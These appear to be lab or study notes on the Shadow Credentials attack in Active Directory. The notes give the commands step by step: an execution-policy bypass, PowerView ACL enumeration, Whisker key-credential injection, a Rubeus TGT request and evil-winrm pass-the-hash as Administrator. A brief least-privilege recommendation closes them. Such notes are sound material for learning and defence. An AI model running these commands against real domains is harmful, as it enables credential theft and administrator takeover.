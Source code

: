 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
        - [Notes~](#Notes~)
          - [Objectives](#Objectives)
  - [Understanding Active Directory](#Understanding\Active\Directory)
  - [Windows Hello for Business (WHfB)](#Windows\Hello\for\Business\(WHfB))
  - [Enumeration with PowerView](#Enumeration\with\PowerView)
  - [Exploiting GenericWrite Privilege](#Exploiting\GenericWrite\Privilege)
  - [Obtaining TGT with Rubeus](#Obtaining\TGT\with\Rubeus)
  - [Conducting Pass-the-Hash Attack](#Conducting\Pass-the-Hash\Attack)
  - [Conclusion](#Conclusion)

## Table of Contents

        - [Notes~](#Notes~)
          - [Objectives](#Objectives)
  - [Understanding Active Directory](#Understanding\Active\Directory)
  - [Windows Hello for Business (WHfB)](#Windows\Hello\for\Business\(WHfB))
  - [Enumeration with PowerView](#Enumeration\with\PowerView)
  - [Exploiting GenericWrite Privilege](#Exploiting\GenericWrite\Privilege)
  - [Obtaining TGT with Rubeus](#Obtaining\TGT\with\Rubeus)
  - [Conducting Pass-the-Hash Attack](#Conducting\Pass-the-Hash\Attack)
  - [Conclusion](#Conclusion)


##### Notes~
`msDS-KeyCredentialLink` is an attribute used by the Domain Controller to store the public key in WHfB for enrolling a new user device such a computer. In short, each user object in the Active Directory database will have its public key stored in this unique attribute

1. (TPM) - Public-Private key pair generation: The TPM creates a public-private key pair for the user's account when they enroll. It's crucial to remember that the private key never leaves the TPM and is never disclosed.
2. Client certificate request



###### Objectives
- Understanding Active Directory
- Introduction to Windows Hello for Business
- Prerequisites for exploiting GenericWrite privilege
- How the Shadow Credentials attack works
- How to exploit the vulnerability
## Understanding Active Directory
- **AD**: A centralized authentication system in Windows environments.
- **Domain Controller (DC)**: Manages data storage, authentication, and authorization ithin a domain.
## Windows Hello for Business (WHfB)
- Replaces traditional passwords with cryptographic keys.
- Uses **msDS-KeyCredentialLink** attribute in AD to store public keys.
- Authentication process involves authorization, certificate generation, and authentication.
## Enumeration with PowerView
1. **Navigate to Tools Directory**:
`cd C:\Users\hr\Desktop`
2. **Bypass Execution Policy**:
`powershell -ep bypass`
3. **Load PowerView Script**:
`. .\PowerView.ps1`
4. **Enumerate Privileges**:
`Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights`
## Exploiting GenericWrite Privilege
1. **Using Whisker**:
- Add command:
 `.\Whisker.exe add /target:VULNERABLE_USER`
- Replace `VULNERABLE_USER` with the target user from enumeration.
## Obtaining TGT with Rubeus

1. **Generate TGT Request**:
- Use the output from Whisker to create the command.
- Syntax:
`Rubeus.exe asktgt /user:USER /certificate:CERT /password:PASSWORD /domain:DOMAIN /dc:DOMAIN_CONTROLLER /getcredentials /show`

- Replace `USER`, `CERT`, `PASSWORD`, `DOMAIN`, and `DOMAIN_CONTROLLER` with appropriate values.
## Conducting Pass-the-Hash Attack
1. **Using Evil-WinRM**:
    - Command: `evil-winrm -i MACHINE_IP -u Administrator -H NTLM_HASH`
    - Replace `MACHINE_IP` and `NTLM_HASH` with the target machine's IP and the NTLM hash obtained.
## Conclusion
- Emphasize the principle of least privilege in AD.
- Regularly audit and review permissions to prevent such vulnerabilities.

